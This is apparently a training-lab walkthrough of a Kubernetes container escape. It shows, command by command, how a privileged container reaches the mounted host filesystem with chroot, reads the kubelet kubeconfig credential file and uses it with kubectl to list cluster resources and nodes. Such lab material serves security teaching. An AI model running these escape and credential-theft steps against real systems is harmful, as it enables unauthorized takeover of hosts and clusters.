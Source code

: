 ## 🎉 Solution & Walkthrough

### 🎲 Method 1

* After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```bash
capsh --print
```

```bash
mount
```

* Now you can explore the mounted file system by navigating to the `/host-system` path

```bash
ls /host-system/
```

![Scenario 4 host system](images/sc-4-2.png)

* You can gain access to the host system privileges using `chroot`

```bash
chroot /host-system bash
```

* As you can see, now you can access all the host system resources like docker containers, configurations, etc.

```bash
docker ps
```

![Scenario 4 chroot host](./sc-4-3.png)

* The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```bash
cat /var/lib/kubelet/kubeconfig
```

![Scenario 4 kubelet config](./sc-4-4.png)

:::tip

You can use the available `kubectl` command-line utility to explore other resources using the obtained configuration. Also, you can leverage lots of other potential things by using the available utilities or downloading them as required.

:::

* Using the kubelet configuration to list the Kubernetes cluster-wide resources

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

![Scenario 4 get kube-system](./sc-4-5.png)

:::info

From here you can go beyond by performing the lateral moment and a post-exploitation based on the available setup, configuration, and resources
:::

* You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

